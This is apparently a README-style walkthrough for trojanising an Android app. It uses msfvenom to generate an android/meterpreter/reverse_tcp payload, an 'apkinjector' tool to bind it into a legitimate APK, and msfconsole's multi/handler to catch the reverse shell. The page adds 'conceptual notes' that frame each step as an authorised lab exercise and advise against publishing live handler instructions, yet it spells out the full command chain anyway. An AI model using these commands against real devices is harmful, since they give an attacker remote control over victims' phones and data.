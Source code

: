 ### Example: create a payload artifact
```
cd ../Lab
```
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-system-ip> LPORT=<port:4444> -o payload.apk -f raw
```
**Conceptual note:** In an authorised lab, this step generates a test payload. 

### Example: bind or inject payload into APK
```
chmod +x ./apkinjector
```
```
./apkinjector
```
**Conceptual note:** Injection merges payload code with a target APK. The public repo omits binding recipes — present this conceptually or use inert artifacts included in `Lab/`.

### Example: inspect modified smali/manifest
```
./apkinjector ./payload.apk ./original.apk
```
If you can’t find the .smali file path, run the command below to list matching files and then enter the correct path manually.
```
find /tmp/original -type f -name 'MainActivity.smali' -print
```

**Conceptual note:** Analysts would inspect `smali/` changes and manifest entries with static analysis tools inside the isolated lab to find tampering indicators.

### Example: runtime listener / handler
```
msfconsole -q
```
```
use exploit/multi/handler
```
```
set payload android/meterpreter/reverse_tcp
```
```
set LHOST <your-system-ip>
```
```
set LPORT <port:4444>
```

**Conceptual note:** A listener conceptually receives callbacks from a payload. For public demos, show sanitized recordings or mock transcripts — **do not** publish live handler instructions.

---

